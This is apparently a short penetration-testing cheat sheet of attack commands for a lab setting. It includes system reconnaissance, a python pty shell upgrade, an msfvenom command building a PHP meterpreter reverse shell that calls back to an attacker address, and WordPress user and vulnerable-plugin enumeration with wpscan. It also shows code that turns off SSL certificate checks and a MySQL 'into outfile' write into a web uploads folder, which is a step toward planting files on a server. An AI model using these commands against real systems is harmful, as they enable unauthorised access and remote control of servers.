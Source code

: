 #Privilege Escalation
	1. uname -a
	2. cat /etc/*release*
	3. cat /etc/lsb-release

#Bash shells
	1. /usr/bin/python -c 'import pty;pty.spawn("/bin/bash");'
	
#Bind Shells


#Reverse Shells

#Reverse Shells using metasploit

  	1. msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1337 -e php/base64 > shell.php
     		 
		 append <?php ?> in the shell.php file

#Wordpress Scanning
	1. wpscan --url https://10.0.2.9:12038/blogblog --enumerate uvp
	2. wpscan --url https://10.0.2.9:12038/blogblog --enumerate p
	
    		u : enumerate usernames 
    		vp : vulnerable plugins
		p : plugins
    
#Changing a python urllib2.urlopen method to work with ssl

	1. 
		import ssl 
		ctx = ssl.create_default_context()
		ctx.check_hostname = False
		ctx.verify_mode = ssl.CERT_NONE

		urllib2.urlopen(----- , context = ctx)

#After getting access to mysql command line remotely

	1. Creating a file onto the remote server
		mysql> select "baba" into outfile "/var/www/html/somepath/wp-content/uploads/test.txt";
    
